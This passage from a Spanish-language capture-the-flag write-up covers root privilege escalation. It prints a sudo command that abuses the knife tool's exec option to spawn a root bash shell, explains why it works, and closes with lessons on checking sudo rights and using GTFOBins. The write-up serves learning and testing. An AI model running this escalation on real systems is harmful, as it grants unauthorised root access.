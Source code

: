 #### 🧪 Comando para obtener una shell como root:

```bash
sudo /usr/bin/knife exec -E 'exec "/bin/bash"'
```

![](../img/b3939c8f5cbe0b7f16a170b097cfa503.png)

✅ Esto ejecuta `bash` directamente como root.

### 🧾 Verificación

Una vez dentro de la shell root:

![](../img/923bffb1bd145e48e4396ff2abb6b1eb.png)

### 📌 Nota técnica

La opción `-E` de `knife exec` ejecuta código Ruby directamente desde la línea de comandos. Como `james` puede usar `knife` como root, cualquier código que metas allí se ejecutará con permisos de root.

---

### 🧠 Aprendizaje clave

- Siempre revisar `sudo -l` al tener acceso a un usuario.
    
- Los binarios como `knife`, `vim`, `perl`, `python`, etc., pueden ser vectores de escalada si tienen `NOPASSWD`.
    
- Buscar en GTFOBins cuando se encuentra un binario con sudo permitido.